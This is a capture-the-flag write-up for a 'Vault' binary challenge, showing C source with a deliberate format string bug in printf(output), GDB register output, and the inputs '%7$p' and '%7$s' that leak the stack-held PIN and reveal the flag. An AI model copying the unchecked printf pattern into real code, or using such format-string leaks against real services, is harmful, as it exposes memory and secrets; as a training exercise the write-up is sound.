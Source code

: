 # Vault
<p align="center">
    <img src="img/vault_chall.png" alt="Challenge" width="500"/>
</p>

In addition to the binary for the program, we are given its source code, [vault.c](./vault.c)


The program simulates a vault, where we can add, remove, and list items, as well as read the flag. However, to perform any of those operations we need to open the vault, which involves guessing a random 5-byte PIN set each time the program runs.

When we try to open the vault by guessing its PIN this is the function that checks if we have given the correct PIN:
```c
bool checkPIN(char *pin) {
    char enteredPIN[PIN_LENGTH];
    printf("Enter your PIN to access the vault: ");
    fgets(enteredPIN, PIN_LENGTH, stdin);
    enteredPIN[strcspn(enteredPIN, "\n")] = '\0';
    if (strcmp(pin, enteredPIN) == 0) {
        return true;
    }
    char output[100];
    sprintf(output, "the pin %s is not correct", enteredPIN);
    printf(output);
    return false;
}
```


The function has a format string vulnerability in `printf(output);`, which among other things allow us to read memory from the stack. Because the `pin` variable (an array of bytes) is stored on the stack in `main` we should be able to find its memory address using format strings, given that we find the correct offset. With the format specifier `%s` we should then be able to read what the vaults PIN is (`%s` prints what is stored at the address at the given offset, contrary to `%p` which would print only the address).

To find the offset to the stack address of `pin` we can set a breakpoint on the `strcmp` in `checkPIN` in GDB. The stack address will be stored in the `rdi` register.
```
RAX  0x7fffffffdeec ◂— '5e8f2673cf'
RBX  0
RCX  7
RDX  0x7fffffffde44 ◂— 0x67666564636261 /* 'abcdefg' */
RDI  0x7fffffffdeec ◂— '5e8f2673cf'
RSI  0x7fffffffde44 ◂— 0x67666564636261 /* 'abcdefg' */
R8   0x5555555560b0 ◂— 0x74000a00203a746c /* 'lt: ' */
R9   0
R10  0x555555556090 ◂— 'Enter your PIN to access the vault: '
R11  0x246
R12  0x7fffffffe018 —▸ 0x7fffffffe2cb ◂— '/home/loevland/ctf/ept/pwn/vault/the-vault/vault'
R13  0x5555555558c0 (main) ◂— endbr64
R14  0x555555557d40 (__do_global_dtors_aux_fini_array_entry) —▸ 0x555555555300 (__do_global_dtors_aux) ◂— endbr64
R15  0x7ffff7ffd040 (_rtld_global) —▸ 0x7ffff7ffe2e0 —▸ 0x555555554000 ◂— 0x10102464c457f
RBP  0x7fffffffdec0 —▸ 0x7fffffffdf00 ◂— 1
RSP  0x7fffffffde30 ◂— 0xa /* '\n' */
RIP  0x5555555555a4 (checkPIN+125) ◂— call 0x5555555551e0

─────────────────────────────────────────────────────────[ DISASM / x86-64 / set emulate on ]─────────────────────────────────────────────────────────
 ► 0x5555555555a4 <checkPIN+125>    call   strcmp@plt                  <strcmp@plt>
        s1: 0x7fffffffdeec ◂— '5e8f2673cf'
        s2: 0x7fffffffde44 ◂— 0x67666564636261 /* 'abcdefg' */
```

So we know that the PIN is stored at the address `0x7fffffffdeec` (the exact address will change between each run), so now we can use the format string vulnerability to find the offset on the stack where this value is located. We use the format string `%X$p`, where `X` is an integer offset, to specify where on the stack we read from.
```
--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 1
Enter your PIN to access the vault: %7$p %8$p
the pin 0x7fffffffdeec 0x70243725f7fa5780 is not correct
```

After some trial and error (with numbers 1-6) we see that the address of `pin` is stored at offset `7`. This means that if we use the format string `%7$s` the program will print the bytes stored at this address, which is the pincode!
```
--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 1
Enter your PIN to access the vault: %7$s
the pin 5e8f2673cf is not correct
```

No that we have leaked the pin we can open the vault and read the flag (note that neither option 2, 3, 4, or 6 is required to get the flag in this challenge).
```
--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 1
Enter your PIN to access the vault: 5e8f2673cf
Vault opened successfully.

--- Vault Menu ---
1. Open Vault
2. Add Item
3. Remove Item
4. List Items
5. Read flag
6. Exit
Enter your choice: 5
gj! the flag is EPT{find_th3_p1n_f1nd_th3_fl4g}
```